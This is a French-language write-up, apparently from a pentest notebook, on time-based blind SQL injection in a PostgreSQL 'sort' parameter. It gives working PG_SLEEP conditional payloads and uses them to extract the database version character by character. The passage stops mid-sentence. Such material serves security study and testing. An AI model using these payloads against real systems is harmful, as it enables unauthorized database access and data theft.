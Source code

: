 #### PostgreSQL

_Exploitation du paramètre "sort"_

La payload utilisée est celle-ci :

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(DATA_TO_RETRIEVE,1,1))=ASCII('CHAR_TO_RETRIEVE') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

Si la condition est vraie, aucun délai n'est appliqué. Sinon, un délai de 5 secondes est ajouté.

`CASE` : Permet d'exécuter une instruction conditionnelle.

`WHEN` : Condition de l'instruction conditionnelle.

`ASCII` : Retourne le code ASCII du premier caractère d'une chaîne de caractères.

`SUBSTRING` : Extrait une sous-chaîne.

`THEN` : Lorsque le condition est vérifiée, un délai de 0 seconde est ajouté.

`ELSE` : Lorsque la condition n'est pas vérifiée, un délai de 5 secondes est ajouté.&#x20;

La console de développement du navigateur est suffisante pour visualiser le temps de réponse de la requête :&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Récupération de la version de PostgreSQL :&#x20;

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),1,1))=ASCII('P') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),2,1))=ASCII('o') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

```sql
(SELECT CASE WHEN ASCII(SUBSTRING(VERSION(),3,1))=ASCII('s') THEN ('' || PG_SLEEP(0)) ELSE ('' || PG_SLEEP(5)) END)
```

La version de la base de données est "PostgreSQL 15.7 (Debian 15.7-0+deb12u1)".

Une solution plus rapide permettant d'identifier le type de base de données peut être la suivante :&#x20;
